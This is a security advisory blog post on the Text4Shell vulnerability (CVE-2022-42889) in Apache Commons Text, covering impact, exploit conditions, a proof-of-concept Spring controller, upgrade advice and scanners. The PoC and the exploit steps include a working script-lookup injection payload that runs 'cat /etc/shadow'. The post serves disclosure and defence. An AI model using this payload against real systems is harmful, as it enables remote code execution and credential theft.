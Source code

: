```yaml
---
title: "Text4Shell: A Vulnerability in Java library Apache Commons Text (CVE-2022-42889, Act4Shell)"
description: "LunaSec Security Researchers provide a detailed analysis of the vulnerability in Apache Commons Text library (CVE-2022-42889, aka Text4Shell or Act4Shell) and how it can be exploited to execute arbitrary code on the victim's machine."
slug: text4shell-java-rce-cve-2022-42889
date: 2022-10-19T23:30:00.000Z
keywords: [cybersecurity, strategy, java, action, guide, exploit]
tags: [security, appsec, devsecops, cicd, sdlc, guides]
authors: [free]
---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

<head>
  <meta property="article:modified_time" content="2022-10-19T23:30:00.000Z" />
</head>

## What is Text4Shell?

Text4Shell is a vulnerability in the Java library Apache Commons Text. This vulnerability, in specific conditions,
allows an attacker to execute arbitrary code on the victim's machine (Remote Code Execution or "RCE").
The vulnerability was discovered by [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
[announced publicly](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om) on October 13th

Text4Shell was officially assigned the [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) identifier.

<!--truncate-->

Note: While the vulnerability is also known as "Act4Shell", we'll be referring to it as "Text4Shell" in this article.

## Who is impacted?

Applications that use the Apache Commons Text library (or that depend on libraries using it) are impacted.

While the name Text4Shell may suggest that this issue is as widespread
[Log4Shell vulnerability](https://lunasec.io/docs/blog/log4shell-cve-2021-44228/), that is fortunately not the case.

Text4Shell is exploitation is much closer to [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)
in that successful attack requires a specific, non-default set of conditions for it to be remotely exploitable.

We'll go into more detail about that in the next section, but we believe that the impact of this vulnerability
is quite limited and that it is unlikely that many applications are impacted. If you'd like to check if your application
is impacted, you can [scan your code with LunaTrace](https://lunatrace.lunasec.io/) for free. We'll be providing
additional resources at the bottom of this article as well.

### Exploit Conditions

- Apache Commons Text version 1.5 through 1.9 are vulnerable
    ([version 1.10](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0) includes a fix),
- The application must use the `StringSubstitutor` interpolator in a vulnerable configuration (see POC code below),
- The application must accept arbitrary, attacker controlled input for exploitation to be possible,
- All versions of the JDK are vulnerable (early reports suggest JDK versions 15+ are safe, but new POCs have been
    released that work on JDK 15+).

### Proof-of-Concept Code

There are a few excellent resources available for this vulnerability already, including the original
[GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) and a
[Docker POC on GitHub](https://github.com/karthikuj/cve-2022-42889-text4shell-docker), and this post will just be
consolidating the information in those resources together.

The following code snippet is a proof-of-concept that demonstrates how the vulnerability can be exploited.

```typescript
/**
* Example of how to exploit Text4Shell vulnerability (CVE-2022-42889).
* A simple Java web server application using the Spring framework based on:
* https://github.com/karthikuj/cve-2022-42889-text4shell-docker
*/

// Import the vulnerable class from Apache Commons Text
import org.apache.commons.text.StringSubstitutor;

import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("text4shell")
public class ExampleVulnerableText4ShellController {

  @RequestMapping(value = "/vulnerable", method = RequestMethod.GET)
  @ResponseBody
  public String vulnerable(
    // The default value of this parameter is used to demonstrate the vulnerability
    @RequestParam(defaultValue="${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}")
    String requestInput
  ) {
    // This is the vulnerable method imported from Apache Commons Text.
    StringSubstitutor interpolator = new StringSubstitutor();

    // This line triggers the exploit
    return interpolator.replace(requestInput);
  }
}
```

### Exploit Steps

The following steps demonstrate how the vulnerability can be exploited:

1. The attacker sends a request to the vulnerable endpoint with the following payload:
    `http://localhost:8080/vulnerable?requestInput=${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`
2. The request parameter, `reqestInput`, `${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`, is passed to the
    `StringSubstitutor` class, which is vulnerable to the exploit.
3. The `StringSubstitutor` class executes the payload, which is `cat /etc/shadow`, and returns the contents of the `/etc/shadow` file.
4. At this point, the attacker can execute any command they want here, not just `cat /etc/shadow`. This is just an example
    of how the exploit can be used to execute arbitrary code on the victim's machine.

## How to fix Text4Shell

The simplest fix is to upgrade to Apache Commons Text
[version 1.10](https://github.com/karthikuj/cve-2022-42889-text4shell-docker) or later.

If you're unable to upgrade, please
[join us on Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA), where
we can help you find a workaround.

For help determining if you're affected by this vulnerability, or to determine if you're using Vendor software that may
be vulnerable, please see the resources below to help you scan for Text4Shell across your stack.

### Additional Resources

- [JFrog Text4Shell CLI Scanner](https://github.com/jfrog/text4shell-tools)
- [Grype](https://github.com/anchore/grype)
- [LunaTrace by LunaSec](https://lunatrace.lunasec.io/)

## Stay Informed

If you'd like to stay up to date on the latest vulnerabilities, you can join our mailing list below or follow us on
[Twitter](https://twitter.com/lunasecio).


<ContactForm/>

### Have Questions?

You're welcome to reach out to us if you need help by
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA) or by
[emailing us](mailto:contact+text4shell@lunasec.io). You can also
[edit this post on GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
to suggest changes.

## References

First of all, we just want to say thank you to [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
the Apache Commons Text team for their work on resolving this security issue.

- [Apache Commons Text Security Advisory](https://commons.apache.org/proper/commons-text/security.html)
- [Rapid7 Writeup](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/?utm_campaign=sm-blog&utm_source=lunasec)
- [TheRecord Writeup](https://therecord.media/experts-downplay-reach-of-apache-bug-text4shell/)

### Updates

1. 2022-10-19 @ 4pm PDT: Initial post.
2. 2022-10-19 @ 4:30pm PDT: Fixed typos and added more resources.
